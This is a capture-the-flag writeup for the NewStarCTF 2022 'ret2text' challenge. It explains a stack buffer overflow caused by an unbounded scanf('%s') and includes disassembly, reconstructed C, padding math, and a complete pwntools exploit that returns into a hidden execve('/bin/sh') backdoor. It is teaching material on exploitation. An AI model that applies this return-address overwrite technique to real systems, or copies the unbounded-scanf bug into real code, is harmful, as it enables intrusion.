




<div align="center">

# 🚪 ret2text

### Pwn Writeup · NewStarCTF 2022 Open Competition Track · `ret2text` via a Hidden `backdooOo0r()`


*No leak, no libc, no gadgets — just an unbounded `scanf` and a function nobody ever calls.*

</div>

---

## 📌 TL;DR

The binary reads a name with an unbounded `scanf("%s", buf)` into a 0x20-byte stack buffer. There is no stack canary, so we can overwrite the saved return address and redirect execution to a function the binary ships with by accident (or by design, for the challenge): `backdooOo0r`, which calls `execve("/bin/sh", NULL, NULL)` directly. No ASLR-dependent leak, no libc offsets — because the binary is **No PIE**, every address is fixed at compile time, so the exploit is a static 48-byte payload.

```
payload = b"A" * 40 + p64(0x400708)
```

| | |
|---|---|
| **Binary** | `pwn` — ELF 64-bit, dynamically linked, No PIE, not stripped |
| **Bug** | `scanf("%s", buf)` — no width specifier, unbounded write into a 32-byte stack buffer |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **Gift** | `backdooOo0r()` — an unreachable function that calls `execve("/bin/sh", NULL, NULL)` |
| **Primitive** | `ret2text`: overwrite the saved return address with `backdooOo0r`'s own address |
| **Padding** | 40 bytes to the saved return address |
| **Result** | Shell |

---

## 🗺️ Table of Contents

1. [Recon](#1--recon)
2. [Disassembly Walkthrough](#2--disassembly-walkthrough)
3. [Reconstructed C](#3--reconstructed-c)
4. [The Vulnerability, Precisely](#4--the-vulnerability-precisely)
5. [Exploit Development](#5--exploit-development)
6. [Final Exploit Script](#6--final-exploit-script)
7. [Self-check Quiz](#7--self-check-quiz-yourself)
8. [Checklist](#8--checklist--concepts-exercised-in-this-challenge)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Recon

### 1.1 `file`

```
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, not stripped
```

64-bit, dynamically linked, symbols present (not stripped) — meaning `objdump` and `nm` will show us human-readable function names instead of raw addresses. That's a big advantage for recon.

### 1.2 `checksec`

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Each line answers a specific exploitation question:

| Protection | Value | What it means for us |
|---|---|---|
| Canary | **None** | We can overflow straight through to the saved return address without needing to leak/guess a canary value first. |
| NX | **Enabled** | The stack is not executable. We cannot write raw shellcode onto the stack and jump into it (rules out `ret2shellcode`). |
| PIE | **No PIE**, base `0x400000` | The binary is loaded at a **fixed, predictable address every single run**, on every machine. Any address we read out of `objdump` today will still be correct at exploit time — including on the remote server. |
| RELRO | Partial | Irrelevant here — we are not touching the GOT. |

The combination **"no canary" + "NX enabled" + "No PIE" + a convenient function already in `.text`** is the textbook setup for `ret2text`: we don't need to inject code (NX blocks that) or leak libc (we don't even need libc), we just need to redirect `ret` to code that is *already sitting in the binary, at a known, fixed address*.

### 1.3 Looking for "free" functions — `nm -C ./pwn | grep " T "`

```
0000000000400708 T backdooOo0r
0000000000400725 T main
...
```

`nm` lists every **global, defined, text-segment symbol**. The letter `T` specifically means "defined in `.text`". Scrolling this list is step one of recon for almost any `ret2win`/`ret2text` challenge — you are looking for any function the author left behind (intentionally, as a "win" function, or as dead code) that does something exploitable: spawns a shell, calls `system()`, reads a flag file, etc.

Here `backdooOo0r` immediately stands out — it is not a libc function, not one of the compiler-generated helpers (`_start`, `deregister_tm_clones`, `register_tm_clones`, `__libc_csu_init`, ...), and its name is a dead giveaway.

### 1.4 Confirming the `"/bin/sh"` string exists — `.rodata`

```
Contents of section .rodata:
 4007f0 01000200 2f62696e 2f736800 57656c63  ..../bin/sh.Welc
```

At offset `0x4007f4` inside `.rodata` sits the null-terminated string `"/bin/sh"`. `strings -t x ./pwn | grep bin/sh` confirms the same address (`7f4`, i.e. `0x4007f4`). This tells us: whatever uses that string doesn't need us to supply it — it's baked into the binary already.

---

## 2. 🧩 Disassembly Walkthrough

All code is 64-bit, Intel syntax, System V AMD64 calling convention (args in `rdi, rsi, rdx, rcx, r8, r9`; return value in `rax`).

### 2.1 `main` — where does input happen, and what's the vulnerability?

```asm
0000000000400725 <main>:
  400725: push   rbp                  ; save caller's frame pointer
  400726: mov    rbp, rsp             ; establish new frame pointer -> rbp
  400729: sub    rsp, 0x20            ; reserve 0x20 (32) bytes of local stack space
  40072d: mov    eax, 0x0
  400732: call   4006a7 <init>        ; sets stdin/stdout/stderr to unbuffered (setvbuf)
  400737: lea    rdi, [rip+0xbe]      ; rdi = address of "Welcome!May I have your name?"
  40073e: call   400580 <puts@plt>    ; puts(banner)
  400743: lea    rax, [rbp-0x20]      ; rax = address of the local buffer (buf = rbp-0x20)
  400747: mov    rsi, rax             ; rsi (2nd arg to scanf) = &buf
  40074a: lea    rdi, [rip+0xc9]      ; rdi (1st arg) = address of format string "%s"
  400751: mov    eax, 0x0
  400756: call   4005b0 <__isoc99_scanf@plt>   ; scanf("%s", buf)
  40075b: lea    rdi, [rip+0xbb]      ; rdi = "Ok.See you!"
  400762: call   400580 <puts@plt>    ; puts(farewell)
  400767: mov    eax, 0x0
  40076c: leave                       ; mov rsp, rbp ; pop rbp  (tear down frame)
  40076d: ret                         ; return to __libc_start_main
```

<details>
<summary><b>📜 Line-by-line reasoning (click to expand)</b></summary>

1. `push rbp` / `mov rbp, rsp` — the standard function prologue. This is what makes `main` have a **frame pointer**: `rbp` now permanently points at the saved-rbp slot for the rest of the function, giving us a fixed reference point to compute offsets from.
2. `sub rsp, 0x20` — allocates 32 bytes of stack space below `rbp` for local variables. We don't know yet *which* local variable lives there — the next instruction tells us.
3. `call init` — just housekeeping (`setvbuf` calls to make stdin/stdout/stderr unbuffered). Not security relevant, but worth recognizing so you don't waste time reverse-engineering it as if it were something interesting.
4. The two `puts` calls just print the banner/farewell strings — cosmetic.
5. **`lea rax, [rbp-0x20]`** — this is the critical line. It computes the address `rbp - 0x20` and puts it in `rax`. Combined with the very next instructions, this tells us: **the buffer `buf` starts at `rbp-0x20`**, i.e. it occupies the *entire* 32 bytes that were reserved by `sub rsp, 0x20`. There is no gap between the buffer and the saved rbp.
6. `mov rsi, rax` then `lea rdi, "%s"` then `call scanf` — this is `scanf("%s", buf)`. The format string is `%s`: **no width specifier** (e.g. not `%31s`). This is the bug: `scanf("%s", ...)` with no length limit will keep reading and writing bytes until it hits whitespace, with **zero bounds checking** — classic unbounded stack buffer overflow.
7. `leave` / `ret` — normal function epilogue and return.

</details>

### 2.2 `backdooOo0r` — the "already there" exploit payload

```asm
0000000000400708 <backdooOo0r>:
  400708: push   rbp                  ; standard prologue
  400709: mov    rbp, rsp
  40070c: mov    edx, 0x0             ; edx = 0  -> this becomes rdx (envp)
  400711: mov    esi, 0x0             ; esi = 0  -> this becomes rsi (argv)
  400716: lea    rdi, [rip+0xd7]      ; rdi = address of "/bin/sh" in .rodata
  40071d: call   400590 <execve@plt>  ; execve("/bin/sh", NULL, NULL)
  400722: nop
  400723: pop    rbp
  400724: ret
```



<details>
<summary><b>📜 Line-by-line reasoning (click to expand)</b></summary>

1. `push rbp` / `mov rbp, rsp` — normal prologue. Important for us only because it means if we jump here as if it were a normal `call`, the function will build its own valid stack frame rather than getting confused by whatever was on the stack from `main`.
2. `mov edx, 0x0` — note this writes to the **32-bit** register `edx`, not `rdx`. On x86-64, writing to a 32-bit sub-register **implicitly zero-extends** into the full 64-bit register, so after this instruction `rdx == 0` as well, not just the lower 32 bits. This is a standard compiler idiom for "set a 64-bit register to zero" (it's shorter in machine code than `mov rdx, 0`).
3. `mov esi, 0x0` — same idiom, zeroes `rsi`.
4. `lea rdi, [rip+0xd7]` — RIP-relative addressing. `lea` here computes `rip + 0xd7` at the time this instruction executes (`rip` = address of the *next* instruction, `0x400716 + 7 = 0x40071d`, so target = `0x40071d + 0xd7 = 0x4007f4`). That's exactly the `.rodata` address where `"/bin/sh"` lives (confirmed in section 1.4). So `rdi = &"/bin/sh"`.
5. `call execve@plt` — now the registers are set up exactly per the System V calling convention for `execve(const char *pathname, char *const argv[], char *const envp[])`:
   - `rdi` = `"/bin/sh"`
   - `rsi` = `NULL` (argv)
   - `rdx` = `NULL` (envp)

   This is functionally equivalent to running `/bin/sh` from a shell with no arguments and no environment — it replaces the current process image with `/bin/sh` and hands us a shell.
6. `nop` / `pop rbp` / `ret` — **these three instructions never execute** if `execve` succeeds. `execve` doesn't return on success; it replaces the entire process image (code, stack, heap — everything) with the new program (`/bin/sh`). There is no "returning" from a successful `execve`. (It *would* return, with `rax = -1`, if it failed — but `/bin/sh` existing on the system is a safe assumption here.)

</details>

---

## 3. 🧱 Reconstructed C

Putting the disassembly back into approximate C source (this is what the challenge author most likely compiled):

```c
#include <stdio.h>
#include <unistd.h>

void init(void) {
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin,  NULL, _IONBF, 0);
}

void backdooOo0r(void) {
    execve("/bin/sh", NULL, NULL);
}

int main(void) {
    char buf[32];              // rbp-0x20, exactly 0x20 bytes

    init();
    puts("Welcome!May I have your name?");
    scanf("%s", buf);          // <-- THE BUG: no bound on input length
    puts("Ok.See you!");
    return 0;
}
```

Notice `backdooOo0r` is **never called from `main`**. It's unreachable through normal execution — the only way to ever run it is to hijack control flow directly, which is exactly what the overflow lets us do.

---

## 4. 🐛 The Vulnerability, Precisely

- `buf` is declared with 32 bytes of storage (`char buf[32]`).
- `scanf("%s", buf)` has **no field-width specifier**. The `%s` conversion in `scanf` reads characters until the first whitespace (space, tab, `\n`, ...) and writes every one of them to the destination pointer, with **no awareness of the destination buffer's size**.
- This is a classic **CWE-121 (stack-based buffer overflow)** / unbounded-input scanf vulnerability.
- Because there is no stack canary (`checksec` confirmed "No canary found"), nothing detects or stops us from overwriting past `buf` into the saved `rbp` and then into the **saved return address** of `main`.

---

## 5. 🛠️ Exploit Development

### 5.1 Computing the padding

We established (§2.1, line 5) that `buf` starts at `rbp - 0x20`. The stack frame of `main`, from low to high addresses, looks like this right after the `scanf` writes:



```
rbp-0x20   [ buf[0]  ... buf[31] ]   <- 32 bytes, our input starts here
rbp+0x00   [ saved rbp            ]  <- 8 bytes  (pushed by `push rbp`)
rbp+0x08   [ saved return address ]  <- 8 bytes  (pushed by the `call` that invoked main)
```

This matches the general padding formula we always use when a frame pointer exists:

```
padding = (distance from buffer start to rbp) + 8
        = 0x20 + 8
        = 40 bytes
```

After writing exactly 40 bytes of junk, the **next 8 bytes** we write land exactly on the saved return address slot.

### 5.2 Choosing the target address

We want those next 8 bytes to be the address of `backdooOo0r`, **from its start** (so its own `push rbp` / `mov rbp, rsp` prologue runs and builds a clean frame, rather than us jumping into the middle of it):

```
target = 0x400708
```

Because the binary is **No PIE**, this address is identical in our local test and on the remote server — no leak, no brute-force, no recalculation needed.

### 5.3 Final payload layout



```
offset 0        : 40 bytes of filler ("A" * 40)
offset 40       : p64(0x400708)      -> overwrites the saved return address
```

Total payload length: 48 bytes.

### 5.4 One subtlety: `sendline` and `scanf("%s", ...)`

`sendline()` appends a trailing `\n`. Does that break anything?

No — `scanf("%s", ...)` treats any whitespace character (including `\n`) as the **end of input**, and does *not* write it into the buffer. So the `\n` from `sendline` never lands inside `buf`; it's just the signal that tells `scanf` to stop reading. (This would matter a lot more if our payload needed to contain a literal `\n`, `\0`, or space byte *inside* the data being written — here it doesn't, since `p64(0x400708)` contains no such bytes except a trailing `\x00` which is also fine since it's the very last byte written.)

---

## 6. 🚀 Final Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
import sys

context.arch = 'amd64'
context.log_level = 'info'

HOST = '16997282728feb9477dcce55.tcp-ctf2.dasctf.com'
PORT = 9999

BACKDOOR_ADDR = 0x400708

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT, ssl=True, sni=HOST)
else:
    p = process('./pwn')

PADDING  = b"A" * 40
BACKDOOR = p64(BACKDOOR_ADDR)

payload = PADDING + BACKDOOR

p.sendline(payload)
p.interactive()
```

Usage:

```bash
python3 exploit.py           # run against the local binary
python3 exploit.py remote    # run against the remote CTF server
```

Once `interactive()` drops you into a shell, grab the flag with something like `cat flag*` or `ls` to find it first. ✅

---

## 7. 🧩 Self-check Quiz Yourself

Try to answer each before expanding the answer.

1. **Why does `checksec` showing "No canary found" matter here, specifically?**
   <details><summary>Answer</summary>
   It means we can overflow straight from the buffer through the saved rbp and into the saved return address without first needing to leak or brute-force a canary value that would otherwise sit between the buffer and the saved rbp and detect/abort on corruption.
   </details>

2. **Why can't we just write our own shellcode into `buf` and jump to it?**
   <details><summary>Answer</summary>
   NX is enabled, so the stack (where <code>buf</code> lives) is marked non-executable. The CPU will raise a fault if we try to execute instructions stored there. That's exactly what rules out <code>ret2shellcode</code> and pushes us toward reusing existing executable code instead (<code>ret2text</code>).
   </details>

3. **Why does "No PIE" make this exploit "portable" between local and remote, when other challenges needed different addresses per-environment?**
   <details><summary>Answer</summary>
   No PIE fixes the binary's load base at <code>0x400000</code> on every run, on every machine — the OS doesn't randomize where the executable segments land. Since <code>backdooOo0r</code> lives inside the binary itself (not libc), its address is baked into the file at compile time and never changes. Contrast this with libc addresses, which depend on which libc build the remote server has installed and are also subject to ASLR unless otherwise disabled.
   </details>

4. **The padding formula used was `offset_to_rbp + 8`. Where does the `+8` come from?**
   <details><summary>Answer</summary>
   From the saved rbp itself. The buffer sits below <code>rbp</code>; the 8 bytes immediately at <code>rbp</code> are the caller's saved rbp value (pushed by our function's own <code>push rbp</code>). Only after those 8 bytes do we reach the saved return address at <code>rbp+8</code>. This <code>+8</code> step only applies because a frame pointer exists (<code>push rbp; mov rbp, rsp</code> was present) — if it weren't, the padding would be computed directly from <code>sub rsp, N</code> and the buffer's stack offset instead.
   </details>

5. **`mov edx, 0x0` was used instead of `mov rdx, 0x0` inside `backdooOo0r`. Does this leave garbage in the upper 32 bits of `rdx`?**
   <details><summary>Answer</summary>
   No. On x86-64, any write to a 32-bit sub-register (like <code>edx</code>) automatically zero-extends into the full 64-bit register. So <code>mov edx, 0</code> is a compact, equivalent way of fully zeroing <code>rdx</code>. (This implicit zero-extension rule applies only to 32-bit writes — writing to 8-bit or 16-bit sub-registers, like <code>al</code> or <code>dx</code>, does <em>not</em> zero-extend the rest of the register.)
   </details>

6. **Why jump to the very start of `backdooOo0r` (`0x400708`, the `push rbp`) rather than skipping the prologue?**
   <details><summary>Answer</summary>
   General best practice: jumping via <code>ret</code> (not <code>call</code>) means no one builds a frame for us automatically, so letting the function's own prologue run keeps the stack/frame state consistent with what the rest of the function's instructions expect. In this specific case it happens not to matter, because <code>execve</code> succeeding never returns and the epilogue (<code>pop rbp; ret</code>) never executes — but relying on that is fragile and challenge-specific; always prefer jumping to a function's true entry point.
   </details>

7. **Does the trailing `\n` added by `pwntools`' `sendline()` end up inside `buf`?**
   <details><summary>Answer</summary>
   No. <code>scanf("%s", ...)</code> stops reading — and does not store — at the first whitespace character, which includes <code>\n</code>. It's purely a terminator signal here, not data.
   </details>

---

## 8. ✅ Checklist — Concepts Exercised in This Challenge

- [x] Reading `checksec` output and mapping each flag to a concrete exploitation consequence (canary → no leak needed; NX → no shellcode on stack; No PIE → static addresses)
- [x] Using `nm -C ./pwn | grep " T "` to hunt for attacker-useful functions left in the binary
- [x] Confirming a hardcoded string (`/bin/sh`) exists in `.rodata` via `objdump -s -j .rodata` / `strings -t x`
- [x] Reading `lea rax, [rbp-0x20]` to determine exact buffer-to-rbp offset
- [x] Recognizing `scanf("%s", buf)` with no width specifier as an unbounded overflow primitive
- [x] Applying the frame-pointer padding formula: `offset_to_rbp + 8`
- [x] Understanding why jumping to a function's entry point (not mid-function) is the safe default
- [x] Reconstructing System V AMD64 calling convention register setup (`rdi, rsi, rdx`) from raw `mov`/`lea` instructions
- [x] Recognizing the 32-bit-write zero-extension idiom (`mov edx, 0` zeroes all of `rdx`)
- [x] Understanding that a successful `execve()` never returns, and why that makes the function's epilogue irrelevant
- [x] Distinguishing `ret2text` (jump into the binary's own `.text`) from `ret2shellcode` (inject + jump to stack) and `ret2libc` (jump into libc)
- [x] Writing a pwntools exploit with a clean `local` / `remote` switch via `sys.argv`
- [x] Confirming why `sendline()`'s trailing `\n` is harmless against `scanf("%s", ...)`

---

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
